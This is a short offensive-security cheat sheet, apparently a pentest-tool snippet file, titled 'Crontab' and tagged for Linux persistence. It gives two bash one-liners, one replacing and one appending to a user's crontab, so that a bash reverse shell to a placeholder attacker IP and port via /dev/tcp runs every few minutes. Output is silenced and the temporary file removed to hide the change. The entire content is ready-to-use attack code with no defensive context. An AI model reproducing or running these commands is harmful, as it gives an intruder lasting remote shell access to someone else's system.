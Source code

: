 # Crontab

% crontab, schedule
#plateform/linux #target/local  #cat/PERSIST 

## replace crontab with reversr shell 
#plateform/linux #target/local  #cat/PERSIST 

```bash
(touch .tab ; echo "*/<nb_min|5> * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
```

## append reversr shell
#plateform/linux #target/local  #cat/PERSIST 

```bash
(crontab -l > .tab ; echo "*/<nb_min|5> * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
```